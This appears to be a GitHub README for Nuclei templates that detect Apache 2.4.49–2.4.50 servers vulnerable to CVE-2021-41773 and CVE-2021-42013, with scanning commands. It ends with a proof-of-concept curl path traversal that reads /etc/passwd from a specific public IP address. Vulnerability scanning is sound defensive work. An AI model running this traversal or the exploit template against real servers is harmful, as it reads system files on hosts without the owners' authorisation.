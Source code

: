 # Scan FOR APACHE versions "ZERO-DAY" 

```Apache Version 2.4.49 and 2.4.50 ``` 


```(CVE-2021-41773) and CVE-2021-42013)```


## How to use : 

You Will need nuclei ! 

https://github.com/projectdiscovery/nuclei


Check local nuclei install and verify template 

```nuclei  -t apache-vulnerable-versions.yaml -vv ```

You should see 

```[apache-vulnerable-versions] Vulnerable Apache Versions (2.4.49-2.4.50) (@psibot) [high] ```


To scan target : 

```  nuclei --silent  -t apache-vulnerable-versions.yaml -u https://*.*.*.*:port ``` 

To scan targets in a file : 

```  nuclei --silent  -t apache-vulnerable-versions.yaml -l hosts.txt``` 


## Info about Nuclei templates 

```apache-vulnerable-versions.yaml``` - Detects version of Apache and will output HIGH if vulnerible. 

![apache-vulnerable-versions.yaml](https://imgur.com/WTDHjtO.png)


```apache-path-traversal-rce-v2.yaml``` - Will run a exploit and show the path vulnerible. Will output CRITICAL if  vulnerible.

![apache-path-traversal-rce-v2.yaml](https://imgur.com/Nrg7vER.png)

POC : 

```curl -s  -k  https://135.148.120.171:8443/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd ```

![POC](https://imgur.com/ijInybr.png)